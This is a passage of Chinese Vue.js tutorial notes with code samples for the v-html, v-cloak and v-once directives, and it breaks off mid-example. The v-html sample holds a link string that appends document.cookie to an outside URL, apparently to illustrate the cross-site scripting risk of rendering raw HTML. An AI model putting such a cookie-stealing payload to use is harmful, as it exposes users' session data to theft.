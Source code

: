 ```html
<div id="root">
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
<script>
    const vm=new Vue({
        el:'#root',
        data(){
            return{
                str:'<h2>你好呀！</h2>',
                str2:'<a href="http://www.baidu.com?"+document.cookie>你想要的内容</a>'
            }
        }
    })
</script>
```

### v-cloak指令(没有值)：

​    1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删除v-cloak属性
​    2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题 

```html
<style>
    [v-cloak]{
        display: none;
    }
</style> 
<div id="root">
    <!-- 解析页面有延迟时，使用页面不会有异常展示 -->
    <h2 v-cloak>你好{{name}}</h2>
</div>
<script>
    Vue.config.productionTip=false
    const vm=new Vue({
        el:'#root',
        data(){
            return{
                name:'尚硅谷'
            }
        }
    })
</script>
```

### v-once指令：

​    1.v-once所在节点在初次动态渲染后，就视为静态内容了
​    2.以后数据的改变是不会引起v-once所在结构的更新，可以用于优化性能

```html
   <div id="root">
       <h2 v-once>初始化的n值是：{{n}}</h2>
       <h2>当前的n值是：{{n}}</h2>
       <button @click="n++">点我n+1</button>
</div>
<script>
    Vue.config.productionTip = false
    const vm = new Vue({
        el: '#root',
        data() {
            return {
                n: 1
            }
        }
```